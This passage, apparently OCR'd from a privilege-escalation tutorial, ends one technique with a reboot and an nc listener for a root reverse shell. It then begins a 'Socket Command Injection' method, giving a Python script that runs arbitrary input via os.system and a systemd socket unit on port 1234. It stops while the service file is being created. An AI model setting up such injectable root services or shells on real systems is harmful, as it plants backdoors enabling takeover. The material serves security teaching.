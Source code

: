 Alternatively, we could restart the computer:

```shell
reboot
```

Receive the reverse shell as the root user:

```shell
nc -lvnp 1234
```
# PrivilegeEscalation via Socket Command Injection

Create a file named `socket_injection.py`:

```shell
vim socket_injection.py
```

Write the following code:

```python
#!/usr/bin/python3
import os
command = input("Enter a command: ")
os.system(command)
```

Add execution permissions:

```shell
chmod +x socket_injection.py 
```

Create the following socket:

```shell
sudo vim /lib/systemd/system/injection.socket
```

Write the following configuration:

```shell
[Unit] 
Description = Socket Command Injection Server 

[Socket] 
ListenSequentialPacket = 1234 
Accept = yes 

[Install] 
WantedBy = sockets.target
```

Then create this service:

```shell
sudo vim /etc/systemd/system/injection@.service
```
